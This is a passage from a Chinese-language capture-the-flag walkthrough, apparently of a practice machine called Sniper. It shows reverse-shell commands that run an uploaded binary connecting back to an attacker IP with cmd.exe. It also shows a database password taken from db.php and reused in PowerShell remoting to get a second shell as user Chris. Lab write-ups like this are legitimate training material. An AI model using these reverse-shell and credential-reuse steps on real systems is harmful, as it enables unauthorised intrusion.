 ```
09/15/2018  12:12 AM               838 MediaSim.gmmp
09/15/2018  12:12 AM               786 Photo.gmmp
09/15/2018  12:12 AM               822 Proofing.gmmp
09/15/2018  12:12 AM           218,103 RSWOP.icm
09/15/2018  12:12 AM             3,144 sRGB Color Space Profile.icm
09/15/2018  12:12 AM            17,155 wscRGB.cdmp
09/15/2018  12:12 AM             1,578 wsRGB.cdmp
              11 File(s)        289,056 bytes
               2 Dir(s)  17,876,930,560 bytes free
```

kali监听1234端口，并建立反向shell连接，成功获取`iusr`的shell：

```
~ ./evil.sh 'start \windows\system32\spool\drivers\color\2.exe 10.10.14.67 1234 -e cmd.exe'
```

![](https://p5.ssl.qhimg.com/t018dd1a71f5ecc2e04.png)

## 0x05 提权——普通用户

利用`iusr`用户权限寻找有用的信息，发现靶机还有两个用户`Administrator`、`Chris`。在`C:\inetpub\wwwroot\user\db.php`中找到密码`36mEAhz/B8xQ~2VM`，我猜测这个应该就是`Chris`的密码：

```php
<?php
// Enter your Host, username, password, database below.
// I left password empty because i do not set password on localhost.
$con = mysqli_connect("localhost","dbuser","36mEAhz/B8xQ~2VM","sniper");
// Check connection
if (mysqli_connect_errno())
  {
  echo "Failed to connect to MySQL: " . mysqli_connect_error();
  }
?>
```

查看`Chris`的相关权限，发现他具有远程执行powershell的权限：

![](https://p2.ssl.qhimg.com/t01692336bc9e0c316d.png)

进入powershell，配置`Chirs`认证信息：

```powershell
> $pw = ConvertTo-SecureString '36mEAhz/B8xQ~2VM' -AsPlainText -Force
> $cred = New-Object System.Management.Automation.PSCredential("snipe\chris", $pw)
> Enter-PSSession -ComputerName SNIPER -Credential $cred
```

kali监听4321段端口，成功获取`Chris`的反向shell：

```powershell
> Start-Process -FilePath "\windows\system32\spool\drivers\color\2.exe" -ArgumentList "10.10.14.67 4321 -e cmd.exe" -NoNewWindow
```
